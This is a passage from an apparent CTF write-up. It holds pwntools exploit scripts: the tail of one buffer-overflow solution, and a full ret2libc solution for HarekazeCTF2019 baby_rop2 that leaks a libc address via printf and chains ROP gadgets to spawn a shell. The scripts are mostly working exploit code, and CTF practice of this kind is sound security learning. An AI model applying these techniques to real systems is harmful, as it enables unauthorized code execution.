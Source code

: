 ```python

r.recvuntil("How many bytes do you want me to read? ")
r.sendline('-1')
r.recvuntil("data!\n")

payload='a'*0x2c+'bbbb'
payload+=p32(system_addr)+p32(main_addr)+p32(bin_addr)
r.sendline(payload)

r.interactive()

```

## [HarekazeCTF2019]baby_rop2
ret2libc，通过printf泄露read函数地址，然后计算libc的偏移，然后构造ROP
```python
from pwn import *
from LibcSearcher import *
context.log_level='debug'

r=process('./babyrop2')
elf=ELF('./babyrop2')
read_got=elf.got['read']
printf_plt=elf.plt['printf']
main_addr=elf.sym['main']
rdi_ret=0x400733
rsi_r15_ret=0x400731
format_addr=0x400770

r.recvuntil("What's your name?")
payload='a'*0x20+'bbbbbbbb'
payload+=p64(rdi_ret)+p64(format_addr)
payload+=p64(rsi_r15_ret)+p64(read_got)+p64(0x0)
payload+=p64(printf_plt)+p64(main_addr)
r.sendline(payload)

read_addr=u64(r.recvuntil('\x7f')[-6:].ljust(8,'\x00'))
libc=LibcSearcher('read',read_addr)
libc_base=read_addr-libc.dump('read')
system_addr=libc_base+libc.dump('system')
bin_addr=libc_base+libc.dump('str_bin_sh')

payload='a'*0x20+'bbbbbbbb'
payload+=p64(rdi_ret)+p64(bin_addr)+p64(system_addr)+p64(main_addr)

r.recvuntil("What's your name?")
r.sendline(payload)

r.interactive()
```
